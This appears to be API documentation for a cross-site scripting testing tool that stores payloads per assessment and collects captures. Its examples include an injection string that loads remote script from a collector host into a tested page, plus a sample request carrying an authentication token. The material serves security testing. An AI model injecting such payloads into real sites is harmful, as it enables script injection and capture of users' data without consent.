 ##API##
The API can be used for tool development and automation.  

##API Authentication##
After creating an admin account, navigate to the Admin model and copy the token.  You will need the token to perform any API requests.

![Token](http://i.snag.gy/bc8vP.jpg "Token")

You *MUST* send the token as a header in each request.  Here is an example for creating a new Assessment:

    POST /api/assessments HTTP/1.1
    Token: 7bf26bd2a9782a3a3422b6abb5c2d0ebe58999a984bf0bcf8197f56f84f0c878cfd37c76c0339b12
    Content-Type: application/json
    Content-Length: 29
    

    {"name": "stuff.netflix.com"}
    
    
###Assessment API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/assessments | Retrieve a list of assessments |
| GET | http://[hostname]/api/assessments/[id] | Retrieve a specific assessment | 
| POST | http://[hostname]/api/assessments | Create a new assessment |
| PUT | http://[hostname]/api/assessments/[id] | Update a specific assessment |
| DELETE | http://[hostname]/api/assessments/[id]  | Delete an assessment|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| name | string | True | The application or assessment identifier | 


###Payload API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/payloads | Retrieve a list of payloads |
| GET | http://[hostname]/api/payloads/[id] | Retrieve a specific payload | 
| POST | http://[hostname]/api/payloads | Create a new payload |
| PUT | http://[hostname]/api/payloads/[id] | Update a specific payload |
| DELETE | http://[hostname]/api/payloads/[id]  | Delete a payload|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| assessment | string | True | The application or assessment identifier | 
| payload | string | True | The injection string.  Can also use $1 as plaeholder for payload | 
| method | string | False | The request method (GET/POST/PUT/DELETE) | 
| url | string | False | The URL you are testing | 
| parameter | string | False | The parameter you are testing |
| notes | string | False | Notes on the payload | 


**POST Request**

    {
        "assessment": "Example",
        "payload": "<script src=$1></script>",
        "method": "GET",
        "parameter": "UID",
        "notes": "",
        "url": "http://www.foo.com/what.php?UID=2343"
    }
    
**POST Response**

    HTTP/1.0 201 CREATED
    Content-Type: application/json
    Content-Length: 200
    Date: Tue, 04 Feb 2014 00:30:14 GMT
    
    {
        "assessment": "Example", 
        "id": 2, 
        "method": "GET", 
        "notes": "", 
        "parameter": "UID", 
        "payload": "<script src=\"//127.0.0.1:8081/c.js?u=None\"></script>", 
        "url": "http://www.foo.com/what.php?UID=2343"
    }


       
       
###Capture API###
| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/captures | Retrieve a list of captures |
| GET | http://[hostname]/api/captures/[id] | Retrieve a specific capture | 
| DELETE | http://[hostname]/api/captures/[id]  | Delete a capture|

